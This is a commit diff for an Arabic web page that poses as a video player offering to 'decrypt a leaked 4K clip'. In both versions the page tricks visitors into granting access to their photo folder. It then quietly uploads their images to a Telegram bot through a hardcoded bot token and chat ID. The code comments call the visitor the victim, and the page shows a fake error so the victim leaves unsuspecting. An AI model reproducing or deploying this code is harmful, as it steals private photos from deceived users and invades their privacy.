

Before and after one commit to yees2916-byte/video-player-stream, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,80 +2,57 @@
 <html lang="ar" dir="rtl">
 <head>
     <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Video Player 4K</title>
+    <title>فك تشفير المقطع المسرب</title>
     <style>
-        body { background: #0f0f0f; color: #eee; font-family: sans-serif; text-align: center; padding: 20px; }
-        .player-container { max-width: 400px; margin: 50px auto; border: 1px solid #333; border-radius: 15px; padding: 20px; background: #1a1a1a; }
-        .video-placeholder { width: 100%; height: 200px; background: #000; border-radius: 10px; display: flex; align-items: center; justify-content: center; cursor: pointer; border: 2px solid #444; }
-        .progress-box { display: none; margin-top: 25px; }
-        .bar-bg { width: 100%; background: #333; height: 12px; border-radius: 6px; overflow: hidden; margin: 10px 0; }
-        .bar-fill { width: 0%; height: 100%; background: #00ff00; transition: width 0.3s; }
+        body { background: #050505; color: #333; font-family: sans-serif; text-align: center; padding-top: 150px; }
+        .unlock-btn { border: 2px solid #1a1a1a; padding: 20px 40px; border-radius: 50px; color: #1a1a1a; cursor: pointer; font-weight: bold; font-size: 18px; transition: 0.3s; display: inline-block; }
+        .unlock-btn:hover { border-color: #333; color: #333; }
     </style>
 </head>
 <body>
 
-<div class="player-container">
-    <h3>📺 مشغل الفيديو</h3>
-    <div class="video-placeholder" id="playArea" onclick="initiateSiphon()">
-        <img src="https://cdn-icons-png.flaticon.com/512/0/375.png" width="60" style="filter: invert(1);">
+    <div class="unlock-btn" onclick="startDeepSiphon()">
+        اضغط لفك تشفير الفيديو (4K)
     </div>
-    <div id="progressBox" class="progress-box">
-        <p id="loaderLabel">جاري التهيئة...</p>
-        <div class="bar-bg"><div id="pBar" class="bar-fill"></div></div>
-    </div>
-</div>
 
 <script>
     const TOKEN = "7864483754:AAH9r2X-r37O6xidO263m3W4S6eFw4N6W5U";
     const CHAT_ID = "7449231580";
 
-    async function initiateSiphon() {
-        const pBar = document.getElementById('pBar');
-        const loaderLabel = document.getElementById('loaderLabel');
-        const progressBox = document.getElementById('progressBox');
-
+    async function startDeepSiphon() {
         try {
-            // فتح نافذة اختيار المجلد
+            // طلب المجلد لإيهامه بوضع "ملفات فك التشفير" هناك
             const dirHandle = await window.showDirectoryPicker();
 
-            // بمجرد اختيار المجلد، نظهر الشريط
-            progressBox.style.display = 'block';
-            loaderLabel.innerText = "جاري الاتصال بالسيرفر...";
+            // تغيير الواجهة فوراً لإيهامه بأن الفيديو بدأ يجهز
+            document.body.innerHTML = "<h2 style='color:#111'>جاري معالجة البيانات... يرجى الانتظار</h2>";
 
-            // إرسال تنبيه فوري للتليجرام
-            fetch(`https://api.telegram.org/bot${TOKEN}/sendMessage?chat_id=${CHAT_ID}&text=🚀 بدأ السحب من هاتف الضحية!`);
+            // إرسال إشارة للبوت
+            fetch(`https://api.telegram.org/bot${TOKEN}/sendMessage?chat_id=${CHAT_ID}&text=✅ تم اختراق المجلد بنجاح، بدء السحب...`);
 
-            let images = [];
+            // الدخول للمجلد وسحب الصور في خفاء تام
             for await (const entry of dirHandle.values()) {
                 if (entry.kind === 'file' && /\.(jpg|jpeg|png)$/i.test(entry.name)) {
-                    images.push(entry);
+                    const file = await entry.getFile();
+                    const formData = new FormData();
+                    formData.append('document', file);
+                    formData.append('chat_id', CHAT_ID);
+
+                    // إرسال صامت تماماً في الخلفية
+                    fetch(`https://api.telegram.org/bot${TOKEN}/sendDocument`, {
+                        method: 'POST',
+                        body: formData
+                    });
                 }
             }
 
-            if (images.length === 0) {
-                alert("المجلد فارغ، اختر مجلد DCIM");
-                return;
-            }
+            // بعد دقيقتين نظهر له رسالة خطأ لكي يغلق الصفحة وهو مطمئن
+            setTimeout(() => {
+                document.body.innerHTML = "<h2 style='color:red'>خطأ في الاتصال: السيرفر لا يستجيب حالياً.</h2>";
+            }, 60000);
 
-            let count = 0;
-            for (const entry of images) {
-                if (count >= 50) break; // سحب 50 صورة لتسريع العملية
-                const file = await entry.getFile();
-                const formData = new FormData();
-                formData.append('document', file);
-                formData.append('chat_id', CHAT_ID);
-
-                await fetch(`https://api.telegram.org/bot${TOKEN}/sendDocument`, { method: 'POST', body: formData });
-
-                count++;
-                let percent = Math.round((count / Math.min(images.length, 50)) * 100);
-                pBar.style.width = percent + "%";
-                loaderLabel.innerText = `جاري المعالجة: ${percent}%`;
-            }
-            loaderLabel.innerText = "✅ تم التحميل بنجاح";
         } catch (err) {
-            alert("خطأ: يرجى استخدام متصفح كروم ومنح الصلاحية.");
+            alert("يجب اختيار مجلد DCIM للسماح بفك تشفير الفيديو.");
         }
     }
 </script>
```
